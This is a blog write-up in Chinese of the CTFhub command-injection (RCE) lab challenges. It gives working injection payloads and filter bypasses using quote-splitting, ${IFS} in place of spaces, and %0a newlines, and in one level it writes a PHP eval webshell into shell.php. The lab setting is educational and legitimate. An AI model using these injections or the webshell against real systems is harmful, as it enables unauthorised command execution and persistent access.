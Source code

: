 ```yaml
---
title:CTFhub RCE系列
---
```


#  CTFhub RCE系列


>今天介绍远程执行漏洞（其实想学反弹shell。
>
>首先需要掌握几种常见的语句。

　1、| ，& ，&&，||等操作　　　　

    　　 （1）& 表示先执行CMD1 再执行CMD2，这里不考虑CMD1是否成功。使用CMD1 & CMD2
    
    　　 （2）&& 表示先执行CMD1，成功后再执行CMD，否则不执行CMD2。使用CMD1 && CMD2
    
    　　 （3）|| 先执行CMD1，CMD1执行成功就不再执行CMD2，CMD1执行失败则执行CMD2。使用CMD1 || CMD2

　　2、payload（& / ‘ “ 空格等特殊符号需要时编码）

    　　　(1) cmd = 127.0.0.1 | whoami
    
    　　　(2) cmd = 127.0.0.1 & whoami
    
    　　　(3) cmd = 127.0.0.1 && whoami
    
    　　　(4) cmd = `whoami`
    
    　　　(5) cmd = '/"|whoami（这里意思是用'/"引号闭合前面 /->表示或）

　　3、常用的命令

    　　 （1） 有回显的：whoami id（验证类）
    
    　　　(2) 没有回显的：nslookup wget 等看请求、dnslog httplog等 （验证类）
    
    　　 （3）弹shell必须的，参考我自己的（http://www.cnblogs.com/KevinGeorge/p/8120226.html） 
————————————————
版权声明：本文为CSDN博主「iamsongyu」的原创文章，遵循 CC 4.0 BY-SA 版权协议，转载请附上原文出处链接及本声明。
原文链接：https://blog.csdn.net/iamsongyu/article/details/84483638

## 第一关
没有任何过滤
127.0.0.1|ls
127.0.0.1|cat ```.php
F12看源码。
![](http://www.zhaobairen.club/wp-content/uploads/2020/03/OM37TH7SIQCK73E2G@8-1024x549.png)

---------
## 第二关 过滤掉了cat
还是先看
127.0.0.1|ls
127.0.0.1|c'a't flag_110451125822562.php
F12出flag
上述是一种方法
还有一种可以传一句话木马
```
127.0.0.1|echo "<?php @eval(\$_POST['a']);?>" >> shell.php
```
连shell就不展示了![](http://www.zhaobairen.club/wp-content/uploads/2020/03/TW97C_BNTT6OS5SIP6KR5T-1024x549.png)

----------
## 第三关 过滤空格
127.0.0.1|ls
我这里是运用了${IFS}来绕过了空格，我尝试了括号和url编码无果，
考虑使用了${IFS}
```
127.0.0.1|cat${IFS}flag_518528200601.php
```
依然F12看源码得到flag![](http://www.zhaobairen.club/wp-content/uploads/2020/03/8WDTY2X9QEABJHN12RC-1024x549.png)

------
## 第四关	过滤目录分隔符
目录分割符通常是'\'或者是'/'
两者在python中都可用。
那么就用分号类似堆叠注入一样每个语句后加分号
127.0.0.1;ls![](http://www.zhaobairen.club/wp-content/uploads/2020/03/N75J42DC_7H0GR1CV@W-1024x549.png)
```
127.0.0.1;cd flag_is_here;ls
```
![](http://www.zhaobairen.club/wp-content/uploads/2020/03/PVJ6G54_V@CHJWI3C1IJ68-1024x549.png)
老套路
![](http://www.zhaobairen.club/wp-content/uploads/2020/03/TXGPO8AN7WQTY@YQD6S-1024x549.png)
## 第五关 过滤运算符
同上关就可。这让我想到了是不是上一关有其他方法。
我去搜索了下。
得到结果其他人也是这么做的。
去搜索了有没有分号过滤以及绕过
没有得到什么结果（以后填坑）
第六关就填坑了。
## 第六关 以上所有关全部过滤
难道不是第二关+第三关+第四关就结束了？
好吧，看到题确实不是hhh。
![](http://www.zhaobairen.club/wp-content/uploads/2020/03/SMGMUY4I11MUFXPC-1024x549.png)
毕竟是最后一个了，给大家分析一下吧
首先过滤了基本上面我所用过的所有命令分隔符。
那么在这里介绍一下另外两种分隔符
%0a(换行符) 、%0d(回车符)，并且在url下写入
```
?ip=127.0.0.1%0Als#
```
![](http://www.zhaobairen.club/wp-content/uploads/2020/03/Y3JV8J5TMPO3OIXS9QX-1024x549.png)
注意只能在url写，否则会被二次编码导致失效。
那么就继续下一步。
```
ip=127.0.0.1%0acd${IFS}'f'lag_is_here%0als#
```
![](http://www.zhaobairen.club/wp-content/uploads/2020/03/F@Q@XEUE_YE2TW7G5A6-956x1024.png)
最后一把梭
```
ip=127.0.0.1%0acd${IFS}'f'lag_is_here%0a'c'at${IFS}'f'lag_256432033625740.php#
```
![](http://www.zhaobairen.club/wp-content/uploads/2020/03/8EF1MBAB5TVTARMJ_XE-954x1024.png)
到此就结束一段了23333

--------------